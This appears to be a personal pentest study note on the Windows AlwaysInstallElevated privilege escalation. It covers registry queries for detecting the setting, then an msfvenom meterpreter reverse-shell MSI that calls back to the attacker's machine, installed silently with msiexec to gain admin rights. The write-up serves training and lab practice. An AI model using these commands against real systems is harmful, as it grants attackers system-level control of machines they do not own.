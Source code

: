 # AlwaysInstallElevated

**`AlwaysInstallElevated`** → refer in windows like a backdoor which any program can installed with system or admin privilege if this setting is enable

![image.png](<../../../.gitbook/assets/image (36).png>)

to this vulnerability work must **`HKLM, HKCU`** enable **`AlwaysInstallElevated`**

```powershell
HKLM -> refer to all settings in register for whole **machine**
HKCU -> refer to all settings in register for **user**
```

***

### Detection

```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

# reg query -> use to read information from register
# \Software\Policies\Microsoft\Windows\Installer -> path in register which have all windows installer settings
```

we found this option is enabled

![2025-07-05 18\_16\_40-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_18_16_40 Kali_Linux_ _VMware_Workstation.png>)

so let’s now this setting in user

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

![2025-07-05 18\_18\_16-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_18_18_16 Kali_Linux_ _VMware_Workstation.png>)

From the output, notice that “AlwaysInstallElevated” value is 1.

***

Exploit

create a reverse shell and move it to windows

```powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

then open session using msfconsole

and then setup the payload using

```powershell
msiexec /quiet /qn /i C:\Temp\setup.msi
```

![2025-07-05 18\_21\_57-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_18_21_57 Kali_Linux_ _VMware_Workstation.png>)

and we get a privilege admin

<figure><img src="../../../.gitbook/assets/image 1 (20).png" alt=""><figcaption></figcaption></figure>
